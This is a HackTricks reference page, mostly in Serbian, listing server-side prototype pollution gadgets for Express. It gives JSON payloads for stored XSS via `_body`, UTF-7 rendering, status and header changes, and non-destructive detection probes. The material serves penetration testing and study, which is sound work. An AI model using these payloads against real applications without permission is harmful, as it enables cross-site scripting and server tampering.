 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Za više detalja** [**pogledajte originalno istraživanje**](https://portswigger.net/research/server-side-prototype-pollution)

### Promenite JSON content-type u HTML

U Express aplikaciji koja koristi **JSON content type response** i reflektuje JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
U ovim slučajevima XSS obično nije moguć sa JSON tipom sadržaja. Međutim, sa zagađenjem prototipa možemo **zbuniti Express da vrati HTML odgovor.** Ova ranjivost se oslanja na aplikaciju koja koristi **`res.send(obj)`** i koristi parser tela sa tipom sadržaja application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

Moguće je naterati express da **prikazuje UTF-7 sadržaj sa**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Sigurne Tehnike Skeniranja

### JSON prostori

Sledeći PP će dodati dodatni prostor unutar atributa u JSON-u koji neće pokvariti funkcionalnost:
```json
{"__proto__":{"json spaces": " "}}
```
Тада ће рефлектовани JSON изгледати овако:
```json
{"foo":  "bar"} -- Note the extra space
```
### Izloženi Headeri

Sledeći PP gadget će naterati server da vrati HTTP header: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Zahteva se da **CORS modul bude instaliran**

### **OPTIONS Metoda**

Sa sledećim payload-om, moguće je **sakriti metodu iz OPTIONS odgovora**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Moguće je promeniti **vratni status kod** koristeći sledeći PP payload:
```json
{"__proto__":{"status":510}}
```
### Greška

Kada dodelite prototipu primitiv kao što je string, to proizvodi **no-op operaciju jer prototip mora biti objekat**. Ako pokušate da dodelite objekat prototipa samom `Object.prototype`, to će **izazvati izuzetak**. Možemo koristiti ova dva ponašanja da **otkrijemo da li je zagađenje prototipa bilo uspešno**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Kada aplikacija uključuje objekat u svoj odgovor, kreiranje atributa sa **neobičnim imenom pored `__proto__`** može biti korisno. Konkretno, ako **samo neobični atribut bude vraćen** u odgovoru, to može ukazivati na ranjivost aplikacije:
```json
{"unusualName":"value","__proto__":"test"}
```
Pored toga, u scenarijima gde se koristi biblioteka kao što je Lodash, postavljanje svojstva kako putem zagađenja prototipa (PP) tako i direktno unutar objekta nudi još jedan dijagnostički pristup. Ako je takvo svojstvo izostavljeno iz odgovora, to sugeriše da Lodash proverava postojanje svojstva u ciljanom objektu pre nego što ga spoji:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Dozvolite tačke

Postoji opcija u Express-u koja vam omogućava da **kreirate objekte iz parametara upita**.\
Definitivno je možete koristiti u **lancu** grešaka za iskorišćavanje **ranjivosti zagađenja prototipa**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` kreira objekat u Node.**

## Reference

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
